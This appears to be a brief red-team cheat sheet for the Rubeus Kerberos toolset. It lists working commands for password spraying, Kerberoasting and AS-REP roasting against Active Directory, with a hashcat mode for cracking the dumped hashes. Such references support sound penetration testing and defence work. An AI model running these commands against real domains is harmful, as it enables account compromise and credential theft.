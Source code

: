 ```yaml
---
title: RUBEUS
summary: "A C# toolset for raw Kerberos interaction and abuses."
description: "A C# toolset for raw Kerberos interaction and abuses."
---
```


**[https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)**

## Password Spraying


 > 
 > **<font color=red>Rubeus.exe brute /password:</font>myPassword <font color=red>/noticket</font>**</br>
 > Spray a password against all users in current domain and return the `.kirbi` TGT of users that use this password.

## Kerberoasting


 > 
 > **<font color=red>Rubeus.exe kerberoast</font>**</br>
 > Dump Kerberos hashes of kerberoastable users (same as GetUserSPNs.py but on the target machine).

## AS_REProasting


 > 
 > **<font color=red>Rubeus.exe asreproast</font>**</br>
 > Dump Kerberos hashes of AS_REProastable users. (Then Insert `23$` after `$krb5asrep$` and use `hashcat -m 18200`).
